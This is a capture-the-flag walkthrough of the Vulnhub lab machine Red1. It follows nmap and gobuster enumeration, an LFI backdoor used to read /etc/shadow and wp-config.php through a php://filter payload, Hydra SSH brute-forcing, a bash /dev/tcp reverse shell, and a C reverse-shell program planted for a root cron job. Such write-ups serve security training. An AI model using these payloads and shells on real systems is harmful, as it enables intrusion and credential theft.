



# Red 1 Walkthrough
Hello and welcome to today's walkthrough, where we'll be exploring the vulnerabilities of Red1, a fascinating server from Vulnhub. I'm your host, Whitej.

## Connection
Before we begin, we need to ensure that our attacking machine can communicate with the victim's machine. In my experience, VirtualBox (VBox) is an excellent choice for this task, as it allows for easy configuration of networking and connections.

To establish connectivity, we have two options:

Create a new NatNetwork connection: We can create a new NatNetwork connection and use it on both machines. This will enable them to communicate with each other.
Use a bridged network: Alternatively, we can use a bridged network, but it's essential to ensure that both machines are connected to the same adapter to create a successful bridge.
By setting up the connection correctly, we'll be able to simulate a real-world attack scenario and dive into the exciting world of penetration testing. Let's get started

Firstly find your IP address using **ifconfig**

```sh
ifconfig
```


We have to run our arp-scan to see all the connected devices on our network using the arp-scan or netdiscover

```sh 
"sudo arp-scan -l"
```

#### Or

``` sh 
"sudo netdiscover -i eth0 -r <Ip address range>.0/24 "
```


There we have it,
**Bridge Network**
**192.168.43.55  - Attacker's Machine(kali)**
**192.168.43.2  - Victim's Machine(red)**

Another important thing to do after  the connection is to check if the machine has internet connection using the ping scan(most walkthroughs and tutorials just assumes you know this)
Do  a quick ping scan (commonly to google), see if/ how the packets are transmitted and received


Do a quick ping scan to the Victim's IP address to also see if the host is up and able to communicate


 Okay,
  Communication check  ✔️✔️✔️
  Internet Connection check  ✔️✔️✔️


 ## Enumeration

First online enumeration using Nmap , we are going to look for open ports and services running in them.

```sh
"nmap -sV -sc -A- -p- <Victim's Ip address>"
```


From the above results, we see some ports open:

| PORTS  | SERVICES     |
|--------|--------------|
| 22     | SSH          |
| 80     | HTTP         |


The OS is  Ubuntu Linux 20


Let us check the webpage

We see a WP(wordpress) page with  hovering links, add the link to the hosts and reload for the page to launch/load  properly
sudo vi /etc/hosts


And reload the link


That now has a nice interface but hold on, red team is not been nice here, I guess we the Blue team will have to go a little harder on them😎️

## Directory Bursting

Enumerating hidden directories and files is a crucial first step in a web application attack. This process often reveals valuable information that can help an attacker conduct a more targeted and efficient assault, reducing the chances of errors and wasted effort.

There are many tools available for this task, but not all are equally effective. One tool that is definitely worth considering is Gobuster, a directory scanner written in the Go programming language. Gobuster is a powerful and flexible tool that can help you uncover hidden resources on a web server, making it an essential part of any security professional's toolkit.

We are going to scan for more hidden directories using goburster
```sh
 gobuster dir -u http://192.168.43.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt 
```
 

 That look some time but we can see some interesting pages including a login  page (by now we should have our hacking cap on)

 

Oh there is a link

 

Still the same,let us inspect the page source if we can find some juicy info

 
 
Interesting.......Who is Miessler?

Lets check the /robot.txt
 

That was not really nice ,Red but  now we know there is a backdoor but where? and we know of a Miessler
We are going to scan for backdoors using  a backdoor wordlist from github (interestingly we find one Seclists with different wordlists from Daniel Meissler in github) 


We got  a backdoor,  NetworkFileManager.php
Progress!!!
 But when we load the php , we see an empty page

[alt img](images/3-7png)

 Lets do some googling  for the NetworkManager.php

We find out it is a webshell but we find out that it is a LFI backdoor( remember the comment from the source telling us about Miesller “Looking For It" ) but we can confirm this using wfuzz. WFuzz is a web application security testing tool used primarily for brute forcing web applications. It's designed to identify vulnerabilities and weaknesses by sending a large number of HTTP requests to a web server, using various payloads and parameters to test for issues like SQL injection, cross-site scripting (XSS), and more.
We are also going to use Miesllers help with a  parameters wordlist.This can be downloaded manually using wget
```sh
wget https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/burp-parameter-names.txt
```

### or
create a .txt file and copy the raw code from the Seclist git  and save as a wordlist
```sh
wfuzz -c -u 'http://redrocks.win/NetworkFileManagerPHP.php?FUZZ=test' -w <path to the wordlist>burp-parameter-names.txt

```
We have a parameter “key”
Now lets try and see what door  this “key”   open by testing our LFI theory


Nice. We see the shadow file that contains the users and password hashes 

We find three users -John, Ippsec, Oxdf...Hmmm,who is who?whom is whom? to which should we give power? and who returns the power to us.


## Gaining Shell
Now to the interesting parts ,From the /etc/passwd file,We immediately see the names of 3 users, in addition to root: john, ippsec and oxdf, let’s take note of them.

We are going to be making use of two tools : PHP wrappers and CyberChef

PHP wrappers are used to allow PHP scripts to open files using various protocols. These wrappers can be used with file_get_contents(), fopen(), etc. They allow PHP to read files from various sources like http, https, ftp, and others. 
CyberChef is a web-based tool used by penetration testers and cybersecurity professionals to perform various tasks like encoding, decoding, and encryption on data. So basicallly we are going to encode the WP source code page as a file then decode it with Cyber Chef
We are going to search for a Php Wrapper from  git 


Since we are dealing with a php LFI vunerability



we make use of this payload

**php://filter/convert.base64-encode/resource=index.php**

So which file are we encoding and decoding? Since this is a WordPress(WP)  page, we  know that the The WP-config file contains various configuration settings for a WordPress installation. It's a critical file that stores database connection details, security keys, and other important settings.
So we have our “file ” so let us shoot 
```sh
http://redrocks.win/NetworkFileManagerPHP.php?key=php://filter/convert.base64-encode/resource=wp-config.php
```
You can also use burpsuite to intercept ,send to repeater ,see the HTTP response and play around with for a nice interface
So lets have Cyber Chef do its cooking and baking


We have a database username and a password ...Hahahahhahah😉️Not so slick now huh,Red
We have a wp-login page( when we checked for directories using gobuster ), lets try login using this credentials


Well, maybe Red is a little to slick but we are onto something here and we must gain our machine back.
We have a user and we have a password
Well remember we have a backdoor(NetworkManager.php), we can also encode and decode and see where that leads us




Red is really playing hardsd but we go harder
.Lets see what hashcat rules.It is another clue by Red, mentioning a password, Hashcat, and rules. Since it was base64 encoded, we can assume that Red is talking about the Hashcat Best64 rule for password mutation. The first password that comes to mind is the wp-config databse credentials password
To use hashcat rules, we have to create a file with that password we found then use hashcat to crack the password


Remember we earlier in our recon, we saw two ports open, port 80 and  port 22(ssh) so we are going to bruteforce this new password list using a tool called Hydra. Hydra is a powerful tool used for brute-forcing various network protocols, including SSH. It can be used to perform dictionary attacks, brute-force attacks, and hybrid attacks.

```sh
hydra -l john -P wordlist.txt <target machine IP> ssh
```


 We have a new password, now lets ssh into the machine with our new credentials


We are in!!Let us check our priviledges as john


We have an IPPSEC login with no password. But something does not seem right.Red keeps sending us tons of messages indicating a cron job


 Our connection is closed,how did that happen? So we find out there is a cronjob that Red uses several  distraction messages and also  logs  us out every 5mins and change the password.


 Our connection is closed,how did that happen? So we find out there is a cronjob that Red uses several  distraction messages and also  logs  us out every 5mins and change the password.


Hmmmmm, Red is really playing too hard to get but we are Pros and we know what we are doing and we are more prrepared this time
 We will start again by encoding the NetworkPhp backdoor,cooking with cyberchef ,bruteforcing using hashcat , login as john again but this time create a netcat listener so we can get a reverse shell  to our machine to get a persistent session
Remember the “ippsec” user we found, let us test it privileges by creating a netcat listener and get a reverse shell using a reverser sheet script

```sh 
 cd /dev/shm
 nano shell.sh
 bash -i >& /dev/tcp/<kali machine IP>/9001(port of choice) 0>&1 (check for more information  )
 chmod +x shell.sh
 bash shell.sh
```


 To avoid being kicked out and maintain a persistent shell, we have to use python script to spawn a new shell and attach it pseudo-terminal (pty) on a Unix-like system  and we have to do it fast .So, when you run this command, it will create a new interactive shell using Python. This can be useful in situations where you have gained access to a system but don't have an interactive shell, such as after exploiting a buffer overflow vulnerability.
 Firstly, 
 ```sh
  python3 -c 'import pty;pty.spawn("/bin/bash")'
 ```

  Then we  background our netcat session,
 **CTRL +Z**

 And next we input this command and press the Enter Key twice
 ```sh
 stty raw -echo;fg
 ```
 Lastly,
 ```sh
 export TERM=xterm
 ```


These sets the terminal to “raw” mode and turns off “echo” mode so that means we would not be getting any annoying message from red anymore and  have a normal shell but we should also be mindful of using these bceause by spawning a new shell, you're essentially creating a new process that can execute arbitrary commands. If you're running this command as a privileged user (e.g., root), an attacker could potentially exploit this to gain elevated access to your system.Use this command with caution and only when necessary.Remember, with great power comes great responsibility!

## Gaining Root

Now we have a shell with IPPSEC, but there's a fake flag file in their home directory that says we're not the real deal. The only other user is "0xdf", but we can't access their stuff. So, why should we trust Red's story? Let's assume Red is lying and see what we can find that ippsec can access.


We can use a command to search for directories that belong to the ippsec group. The command is:
```sh
find / -group ippsec -type d 2>/dev/null | grep -v proc
```

 
This command shows us that we have access to a hidden ".git" directory inside the "wordpress" directory. This is unusual and might be important so we navigate to the folder
Another important thing to note is that the shell might be wobbly so just keep typing the shell command until its stabilises
So in our .git folder, we find two files- 
--- rev ---
--- supersecretfileuc.c ---


now lets view the content of this file by using tac:
```sh
tac supersecretfileuc.c
```


We have found a cronjob written in C .We are going to rewrite it or better still create or reverse shell script in C  withe the same name 'supersecretfileuc.c" and send it over http server 
So firstly , let us delete the files  rev and supersecret files


Next step is to create a .C file
```sh
nano supersecretfileuc.c
```
now we put this revshell script into our new file
```sh

#include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int main(void){
   int port=9001;
   struct sockaddr_in revsockaddr;
   
   int sockt = socket(AF_INET, SOCK_STREAM, 0);
   revsockaddr.sin_family = AF_INET;
   revsockaddr.sin_port = htons(port);
   revsockaddr.sin_addr.s_addr = inet_addr("<kali machine IP");
   
   
  connect(sockt, (struct sockaddr *) &revsockaddr,
  sizeof(revsockaddr));
  dup2(sockt, 0);
  dup2(sockt, 1);
  dup2(sockt, 2);
  
  char * const argv[] = {"/bin/bash", NULL};
  execve("/bin/bash", argv, NULL);
  
  return 0;
  
}

```

Remember to input your attackers machine ip and set up a listening port(9001 in this case)

Now we will open a http server in the directory that file is using python
```sh
python3 -m http.server 8081
```


Now download the files into that .git directory so it can create a reverse shell when  the cronjob comes on

ed is stiill flexing, Your time is almost up Red
 
 By now we should have our nc listener  ready 


Now we wait for 2 minutes or less for the cron job to come on 
and now we are ROOT 🥳️ 🥳️ 🥳️


```sh

whoami
root
id
root
ls
defence
root.txt

```


And we got our flag😎️😎️


So that  brings us to the end of this pentesting and walkthrough.

I had a blast hacking this machine. It felt like someone was trying to stop me, but not in a way that made it impossible. At some points, it got pretty annoying, and this write-up can't capture just how much it tested my patience.Red's banter messages arrived every minute, the 'cat' command was replaced by 'vim', account passwords changed faster than you could say "encryption," and you got kicked out of the session every few minutes. It's like playing a game of "Don't get mad, get even" with a mischievous hacker,Red! 😄.But hey, we proved that we are  worthy opponents,we got our machine back, didn't we? Nothing beats that feeling of victory.
 
Thanks, and I hope you enjoyed the machine and the walkthrough! 😁

Keep up the good work, and remember to take breaks when you need them. Happy hacking! 😊👍

**WhiteJ**